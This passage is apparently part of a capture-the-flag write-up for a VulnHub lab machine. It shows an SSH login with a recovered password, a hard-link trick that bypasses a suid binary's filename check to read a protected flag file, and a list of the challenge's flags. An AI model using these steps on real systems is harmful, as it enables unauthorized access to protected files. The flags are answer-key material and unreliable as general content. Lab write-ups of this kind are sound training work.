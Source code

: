So we found cravens password: `931qwerty?`.

Now we can try to login as `craven` via SSH to see if the password is valid and get the next flag.
```
ssh craven@192.168.56.2
$ cat flag.txt
FLAG{w0uld_u_lik3_som3_b33r_with_ur_r3d_PiLL}
```

# flag3

We can spot a suid binary from the user `vulnhub` in it's home directory `/home/vulnhub`.

```
$ cd /home/vulnhub/
$ ./reader
./reader [file to read]
$ ./reader flag.txt
Checking file type...
Checking if flag file...
Nope. Can't let you have the flag.
$ ./reader /etc/passwd
Checking file type...
Checking if flag file...
Great! Printing file contents...
Win, here's your flag:
# $FreeBSD: releng/11.0/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
```

It seems the binary checks the filename for `flag.txt` so let's try to trick this check with a symbolic link:
```
$ ln -s /home/vulnhub/flag.txt /tmp/test
$ ./reader /tmp/test
Checking file type...
Symbolic links not allowed!
```

Bummer, no symbolic links allowed. So let's try to use a hard link:
```
$ ln -f /home/vulnhub/flag.txt /tmp/test
$ ./reader /tmp/test
Checking file type...
Checking if flag file...
Great! Printing file contents...
Win, here's your flag:
FLAG{its_A_ph0t0_ph1ni5h}
```

Done!

# flags
```
FLAG{n0_one_br3aches_teh_f0rt}
FLAG{w0uld_u_lik3_som3_b33r_with_ur_r3d_PiLL}
FLAG{its_A_ph0t0_ph1ni5h}
```
